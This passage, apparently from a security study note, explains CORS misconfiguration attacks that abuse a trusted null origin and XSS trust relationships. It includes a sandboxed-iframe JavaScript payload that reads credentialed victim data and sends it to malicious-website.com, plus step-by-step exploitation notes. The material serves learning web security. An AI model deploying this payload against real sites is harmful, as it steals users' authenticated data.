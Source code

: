 ```javascript
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

- And the server responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

- In this situation, an attacker can use various tricks to generate a cross-domain request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe> 
```

### CORS vulnerability with trusted null origin
1.check for CORS By checking "Access-Control-Allow-Credential: true" if yes then,
2.Send the request to repeater and add a Header "Origin:null".
3.Craft Javascript code and send the request to the victim's server and get the sensitive information.



## Exploiting XSS via CORS trust relationships 

- Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

> Given the following request:

```javascript
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
